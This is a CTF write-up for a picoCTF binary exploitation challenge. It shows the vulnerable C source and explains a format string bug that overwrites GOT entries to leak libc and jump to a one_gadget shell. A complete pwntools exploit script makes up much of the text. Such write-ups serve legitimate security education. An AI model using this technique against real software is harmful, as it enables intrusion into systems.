





The problem provides a binary and a Dockerfile .
The source code of the binary is as shown below.
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <math.h>
#define SIZE 0x100
int main(void)
{
char A[SIZE];
char B[SIZE];
int a = 0;
int b = 0;
puts("Welcome to Fermat\\'s Last Theorem as a service");
setbuf(stdout, NULL);
setbuf(stdin, NULL);
setbuf(stderr, NULL);
printf("A: ");
read(0, A, SIZE);
printf("B: ");
read(0, B, SIZE);
A[strcspn(A, "\n")] = 0;
B[strcspn(B, "\n")] = 0;
a = atoi(A);
b = atoi(B);
if(a == 0 || b == 0) {
puts("Error: could not parse numbers!");
return 1;
}
char buffer[SIZE];
snprintf(buffer, SIZE, "Calculating for A: %s and B: %s\n", A, B);
printf(buffer);
int answer = -1;
for(int i = 0; i < 100; i++) {
if(pow(a, 3) + pow(b, 3) == pow(i, 3)) {
answer = i;
}
}
if(answer != -1) printf("Found the answer: %d\n", answer);
}
As you can see in the source code, there is a format string bug at printf(buffer).
Running checksec I noticed that the program didn't have PIE enabled, meaning that the PIE base was fixed,
and that Partial RELRO was enabled, meaning that the .got.plt section was writable.

I suspected that I would have to abuse the format string bug multiple times to get the flag, but the program didn't loop.
Luckily, since the GOT was writable, I crafted a payload which used the format string bug to overwrite the GOT entry of
pow with the address of main. This way every time the program called pow it instead
recursively called main, creating an infinite loop.

Right after the call to pow (which is the second call to main), the stack looked like the diagram below.

I obtained the libc base by leaking the return address on the top of the stack, which would hold an address to somewhere in libc.
Disassembling __libc_start_main of the libc from the provided Dockerfile, I figured out the offset between the return address
and the libc base, and finally calculated the base address.

I then scanned the provided libc with one_gadget and wrote an algorithm that used the format string bug to overwrite the GOT entry of
puts with the runtime address of any gadget. The second one worked.

The exploit code is as below.
#!/usr/bin/env python3
from pwn import *
def ex():
# context.log_level = "debug"
e = ELF("bin/chall")
pow_got = e.got["pow"]
puts_got = e.got["puts"]
libc = ELF("libc-2.31.so")
p = remote("mars.picoctf.net", 31929)
# p = process("./bin/chall")
# pause()
p.recvuntil(b"A: ")
p.send(b"1" + b"%44c%14$hn%2039c%13$hn" + b"A"*1 + p64(pow_got) + p64(pow_got+2))
p.recvuntil(b"B: ")
p.send(b"1")
p.recvline()
p.recvuntil(b"A: ")
p.send(b"1<>%213$p\x00")
p.recvuntil(b"B: ")
p.send(b"1\x00")
p.recvuntil(b"<>")
libc_base = int(p.recvuntil(b" and", drop=True), 16) - 0x270b3
p.recvline()
print(f"{libc_base=:x}")
binsh = libc_base + 0xe6c81
binsh_str = f"{binsh:x}"
binsh_arr = [binsh_str[8:12], binsh_str[4:8], binsh_str[0:4]]
binsh_arr_int = list(map(lambda x: int(x, 16), binsh_arr))
binsh_sorted = sorted(binsh_arr_int)
short_to_index = {}
for i in range(len(binsh_arr_int)):
short_to_index[binsh_arr_int[i]] = i
diff = [binsh_sorted[0]-20]
for i in range(len(binsh_sorted)-1):
diff.append(binsh_sorted[i+1]-binsh_sorted[i])
print(binsh_str)
print(binsh_arr)
print(binsh_arr_int)
print(binsh_sorted)
print(short_to_index)
print(diff)
payload = b"1"
for i in range(0, 3):
index = short_to_index[binsh_sorted[i]]
payload += f"%{diff[i]:05d}c%{15+index}$hn".encode("ascii")
for i in range(0, 3):
payload += p64(puts_got+i*2)
p.recvuntil(b"A: ")
p.send(payload)
p.recvuntil(b"B: ")
p.send("1\x00")
p.interactive()
if __name__ == "__main__": ex()